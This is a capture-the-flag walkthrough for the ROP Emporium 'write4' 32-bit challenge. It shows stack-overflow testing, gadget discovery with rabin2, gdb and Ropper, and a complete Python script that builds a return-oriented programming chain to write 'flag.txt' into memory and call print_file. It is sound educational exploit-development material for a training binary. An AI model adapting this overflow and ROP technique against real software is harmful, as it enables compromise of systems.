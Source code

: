 # write4
The challenge is available [here](https://ropemporium.com/challenge/write4.html).

## Black-Box Test
Like in all the challenges so far, we will also conduct a test now to discover the behavior of the software. Afterwards, we will find that the return address index is the same as in the previous challenges.

```
./write432
```
![](./0.png)
```
perl -e 'print "X"x44 . "\xef\xbe\xad\xde"' | ./write432
```
![](./1.png)
```
sudo dmesg -k | tail -2
```
![](./2.png)

## In-depth research
I assume that anyone reading this solution has already read the instructions for the challenge. We will find the address of the `print_file` function in the next command.

```
rabin2 -i write432
```
![](./3.png)

Additionally, we will also find the address of the regular helper function.

```
rabin2 -qs write432 | grep -ve 'imp' -e ' 0 ' -e '_'
```
![](./4.png)

Our goal is to make the call `print_file("flag.txt")`. Is the string "flag.txt" present in the binary? The instructions state that it is not. Let's verify this.

```
rabin2 -z write432
```
![](./5.png)

Indeed, there are no helpful strings. Let's take a look at the `usefulFunction`.

```
gdb write432
```
```
set disassembly-flavor intel
```
```
disas usefulFunction
```
![](./6.png)

To summarize, the `usefulFunction` calls `print_file` with one parameter on the stack. This parameter is the address of the string `"nonexistent"` from the previous image (you can also print it out to confirm). Therefore, `usefulFunction` executes `print_file("nonexistent")`.

To verify this in the best way possible, let's call `usefulFunction`. So let's exit the debugger (with the command `q`) and run the next command.

```
perl -e 'print "X"x44 . "\x2a\x85\x04\x08"' | ./write432
```
![](./7.png)

Okay, let's try again after creating a file named `nonexistent`.

```
echo ABCD > nonexistent
```
```
perl -e 'print "X"x44 . "\x2a\x85\x04\x08"' | ./write432
```
![](./8.png)

Indeed, the file was printed. Now, let's focus on the main issue of the current challenge, which is the absence of the string "flag.txt". To address this, we need to push parts of the string onto the stack and place it somewhere in memory.

This means we need to look for three things:
* a writable memory location
* a gadget that reads bytes from the stack to a register
* and a gadget that writes from a register to memory.

We'll start by searching for a writable memory location.

```
readelf -S write432
```
![](./9.png)

So, the `.data` section looks like a good candidate. It's writable, and its size is 8 bytes, which is just enough for our needs.

After some research and searching, I've also found two gadgets that are perfectly suited for our purpose.

```
python3 ~/ropper/Ropper.py
```
```
file write432
```
```
search pop
```
```
search /1/ mov [%], %
```
![](./10.png)

The combination of these two gadgets is simply perfect. The `edi` register will be used for the writable memory address, as derived from the `mov-gadget`. So, the `ebp` register will hold parts of the string "flag.txt". According to the `pop-gadget`, we learn that in the ROP chain, we will first write the address, followed by the relevant part of the string.

Now we have all the information we need.

## Solution
In the following table, the important addresses for constructing the ROP chain are summarized, along with a brief description of each.

| Name          | Type            | Address    | Description                                                       |
|---------------|-----------------|------------|-------------------------------------------------------------------|
| print_file    | Func            | 0x080483d0 | The entry address in the PLT table.                               |
| memory4string | Writable Memory | 0x0804a018 | .data segment addr will be where the string "flag.txt" is placed. |
| pop2registers | Gadget          | 0x080485aa | pop edi; pop ebp; ret;                                            |
| mov2memory    | Gadget          | 0x08048543 | mov dword ptr [edi], ebp; ret;                                    |

And the next table describes the ROP chain itself:

| No | Chain Link                             |
|----|----------------------------------------|
| 1  | 44 garbage bytes                       |
| 2  | pop2registers, memory4string, "flag"   |
| 3  | mov2memory                             |
| 4  | pop2registers, memory4string+4, ".txt" |
| 5  | mov2memory                             |
| 6  | print_file, "XXXX", memory4string      |

Where `"XXXX"` is the return address from the `print_file` function, which is not needed at all (it's there just to ensure that the parameter `memory4string` is in the right place on the stack).

All that remains is to build the Python script that creates the ROP chain, and we’re done!

```python
# chain_builder.py
import struct

def little_endian(number):
    """
    : The function accepts a number not
    : exceeding 4 bytes in size and returns it
    : as a string of hexadecimal characters in : little-endian format.
    """
    return struct.pack("<I", number)

# Parts of the chain
fill_buffer  = b"X"*44

print_file          = little_endian(0x080483d0)

memory4string_part1 = little_endian(0x0804a018)
memory4string_part2 = little_endian(0x0804a018+4) # That's fine because the addition does not create a null byte.

pop2registers       = little_endian(0x080485aa)
mov2memory          = little_endian(0x08048543)

# Building the chain
ROP_Chain = fill_buffer
ROP_Chain += pop2registers + memory4string_part1 + b"flag"
ROP_Chain += mov2memory
ROP_Chain += pop2registers + memory4string_part2 + b".txt"
ROP_Chain += mov2memory
ROP_Chain += print_file + b"XXXX" + memory4string_part1

# Saving the chain in a binary file
with open("rop_chain", "wb") as f:
    f.write(ROP_Chain)
```
```
python3 chain_builder.py
```
```
cat rop_chain | ./write432
```
![](./11.png)

Heida!!
